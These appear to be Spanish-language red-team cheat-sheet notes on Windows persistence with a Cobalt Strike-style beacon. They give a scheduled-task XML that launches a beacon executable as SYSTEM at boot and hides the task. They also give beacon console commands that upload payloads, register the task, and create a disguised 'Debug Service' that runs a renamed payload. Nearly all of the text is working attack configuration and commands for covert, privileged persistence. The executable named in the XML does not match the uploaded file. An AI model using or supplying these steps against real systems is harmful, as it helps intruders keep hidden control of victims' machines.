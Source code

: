 **Tarea Programada**
> Creas un task.xml en tu equipo.

```xml
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
	<Triggers>
		<BootTrigger>
			<Enabled>true</Enabled>
		</BootTrigger>
	</Triggers>
	<Principals>
		<Principal>
			<UserId>NT AUTHORITY\SYSTEM</UserId>
			<RunLevel>HighestAvailable</RunLevel>
		</Principal>
	</Principals>
	<Settings>
		<AllowStartOnDemand>true</AllowStartOnDemand>
		<Enabled>true</Enabled>
		<Hidden>true</Hidden>
	</Settings>
	<Actions>
		<Exec>
			<Command>C:\Windows\System32\beacon_x64.exe</Command>
		</Exec>
	</Actions>
</Task>
```

```powershell
beacon> cd C:\Windows\System32
beacon> upload C:\Payloads\dns_x64.exe
beacon> schtaskscreate \Beacon XML CREATE #Subes el XML
```


**Servicio de Windows**

```powershell
beacon> cd C:\Windows\System32\
beacon> upload C:\Payloads\dns_x64.svc.exe
beacon> mv dns_x64.svc.exe debug_svc.exe

beacon> sc_create dbgsvc "Debug Service" C:\Windows\System32\debug_svc.exe "Windows Debug Service" 0 2 3
```

- Verificar que se creo correctamente
```powershell
beacon> sc_qc dbgsvc
```
